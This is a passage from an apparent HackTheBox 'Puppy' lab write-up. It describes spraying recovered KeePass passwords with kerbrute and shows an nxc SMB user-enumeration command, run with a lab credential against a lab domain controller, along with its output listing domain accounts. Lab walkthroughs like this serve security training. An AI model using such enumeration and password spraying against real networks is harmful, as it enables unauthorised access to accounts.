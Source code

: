 ![keepass_database.png](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/refs/heads/master/assets/htb/puppy/keepass_database.png)

I tried getting all users using `nxc --users` and spraying those passwords against all of them using `kerbrute` hoping for password reuse, but only one combination worked

```bash
$ nxc smb puppy.htb -u levi.james -p KingofAkron2025! --users
SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.10.11.70     445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025!
SMB         10.10.11.70     445    DC               [-] Provided Neo4J credentials (admin:) are not valid.
SMB         10.10.11.70     445    DC               -Username-                    -Last PW Set-       -BadPW- -Description-
SMB         10.10.11.70     445    DC               Administrator                 2025-02-19 19:33:28 3       Built-in account for administering the computer/domain
SMB         10.10.11.70     445    DC               Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         10.10.11.70     445    DC               krbtgt                        2025-02-19 11:46:15 0       Key Distribution Center Service Account
SMB         10.10.11.70     445    DC               levi.james                    2025-02-19 12:10:56 0
SMB         10.10.11.70     445    DC               ant.edwards                   2025-02-19 12:13:14 3
SMB         10.10.11.70     445    DC               adam.silver                   2025-09-25 21:34:29 1
SMB         10.10.11.70     445    DC               jamie.williams                2025-02-19 12:17:26 4
SMB         10.10.11.70     445    DC               steph.cooper                  2025-02-19 12:21:00 3
SMB         10.10.11.70     445    DC               steph.cooper_adm              2025-03-08 15:50:40 3
SMB         10.10.11.70     445    DC               [*] Enumerated 9 local users: PUPPY
```
